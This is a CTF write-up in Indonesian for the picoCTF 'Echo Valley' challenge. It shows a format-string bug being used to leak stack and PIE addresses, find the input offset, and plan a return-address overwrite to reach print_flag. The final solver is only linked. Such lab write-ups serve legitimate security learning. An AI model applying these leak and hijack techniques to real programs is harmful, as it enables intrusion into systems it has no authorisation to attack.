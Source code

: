 di chall ini untuk PIE protection nya aktif,jadi address nya akan berubah ubah setiap kali binary/ELF di jalankan.
```
File:     /mnt/d/aboutCTF/picoCTF/pico/pwn/Echo Valley/valley
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
Debuginfo:  Yes
```
Jika di lihat,function dari main ini hanya akan menjalankan function dari `echo_valley ` ,sedangkan ada function yang memberikan kita flag yaitu pada `print_flag`.Namun,function itu sendiri tidak dijalankan langsung oleh main,jadi disini menurut saya,kita harus menggunakan format string bug arbitrary write
agar kita bisa trigger fungsi `print_flag` ini dan kita mendapatkan flag nya.

```markdown
```asm
0x0000000000001401 <+0>:     endbr64
   0x0000000000001405 <+4>:     push   rbp
   0x0000000000001406 <+5>:     mov    rbp,rsp
   0x0000000000001409 <+8>:     mov    eax,0x0
   0x000000000000140e <+13>:    call   0x1307 <echo_valley>
   0x0000000000001413 <+18>:    mov    eax,0x0
   0x0000000000001418 <+23>:    pop    rbp
   0x0000000000001419 <+24>:    ret
```
saat saya coba untuk format strings:
```
Welcome to the Echo Valley, Try Shouting:
%20$p.%21$p
You heard in the distance: 0x7ffd5b80b6f0.0x5d97ca02d413
```
leak format strings ke 21 itu adalah leak address dari `main+18`, kita coba kalkulasikan berapa offset dari `main+18 ` ini ke - `print_flag`

```
pwndbg> p/x 0x0000000000001413-0x0000000000001269
$1 = 0x1aa
```
jadi, offset nya adalah `0x1aa`,ini akan kita gunakan nanti untuk payload solvernya.Karena function print_flag tidak pernah dipanggil oleh program.Jadi,disini kita bisa bilang kita akan melakukan hijack control flow(overwrite return address) agar program menjalankan `print_flag` dan kita mendapatkan flag-nya.

kita akan gunakan address dari leak `%20%p` sebagai return address dengan jarak dari address itu ke leak `main+18` sebesar 8 byte.

Next,untuk 0ffset nya ,pertama kita cari di offset keberapakah user input kita.

```
Welcome to the Echo Valley, Try Shouting:
AAAAAAAA|%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
You heard in the distance: AAAAAAAA|0x7ffdf12d5910.(nil).(nil).(nil).0x73de5d407ee0.0x4141414141414141.0x252e70252e70257c.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa70252e70252e.(nil).(nil).0xc873fe81287a1100.0x7ffdf12d5b40.0x59cf08c2a413.0x7ffdf12d5be0.0x73de5d227675.0x73de5d563000.0x7ffdf12d5c68.0x1f12d5ba0
exit
The Valley Disappears
```
bisa di lihat,user input kita adalah pada urutan ke-6,jadi offset yang akan kita gunakan dalam format strings payload nya adalah 6.

[Solver](solver.py)
